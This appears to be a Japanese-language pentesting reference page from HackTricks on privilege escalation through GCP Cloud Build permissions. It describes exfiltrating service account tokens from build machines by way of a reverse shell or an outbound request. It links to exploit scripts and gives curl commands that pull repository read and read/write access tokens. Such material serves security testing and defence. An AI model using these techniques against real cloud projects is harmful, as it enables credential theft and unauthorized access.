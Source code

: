 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Cloud Buildに関する詳細情報は、以下を確認してください：

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`

この権限を持つことで、**クラウドビルドを提出**できます。cloudbuildマシンのファイルシステムには、**デフォルトでcloudbuildサービスアカウントのトークン**が含まれています：`<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`。ただし、cloudbuild構成内で**プロジェクト内の任意のサービスアカウントを指定することができます**。\
したがって、マシンからトークンをあなたのサーバーに流出させるか、**その中にリバースシェルを取得してトークンを入手することができます**（トークンを含むファイルは変更される可能性があります）。

元のエクスプロイトスクリプトは[**こちらのGitHubで**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py)見つけることができます（ただし、トークンを取得する場所は私には機能しませんでした）。そのため、[**脆弱な環境の作成、エクスプロイト、クリーンアップを自動化するスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh)と、cloudbuildマシン内でリバースシェルを取得して[**それを盗むためのPythonスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py)を確認してください（コード内で他のサービスアカウントを指定する方法が見つかります）。

より詳細な説明については、[https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)を訪問してください。

### `cloudbuild.builds.update`

**潜在的に**この権限を持つことで、**クラウドビルドを更新し、サービスアカウントトークンを盗む**ことができるでしょう。前の権限で行われたように（ただし、残念ながらこの執筆時点ではそのAPIを呼び出す方法が見つかりませんでした）。

TODO

### `cloudbuild.repositories.accessReadToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りアクセス トークン**を取得できます：
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りおよび書き込みアクセストークン**を取得できます：
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

この権限を使用すると、**接続がアクセスできるリポジトリを取得できます:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
